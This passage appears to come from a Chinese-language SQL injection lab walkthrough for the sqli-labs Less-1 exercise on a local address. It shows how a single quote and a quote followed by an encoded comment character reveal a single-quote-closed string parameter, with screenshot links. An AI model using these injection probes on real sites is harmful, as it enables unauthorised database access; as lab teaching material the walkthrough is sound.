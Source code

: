 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603195825570.png" alt="image-20230603195825570" style="zoom:50%;" />

### 3、如果是字符型，判断闭合方式

在注入处插入一个引号看报错信息吗，可以发现是单引号闭合

```
http://192.168.231.129:9001/Less-1/?id=2'
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603200039513.png" alt="image-20230603200039513" style="zoom:50%;" />

使用单引号闭合并使用注释符注释掉后面的内容

```
http://192.168.231.129:9001/Less-1/?id=2'%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603200153738.png" alt="image-20230603200153738" style="zoom:50%;" />

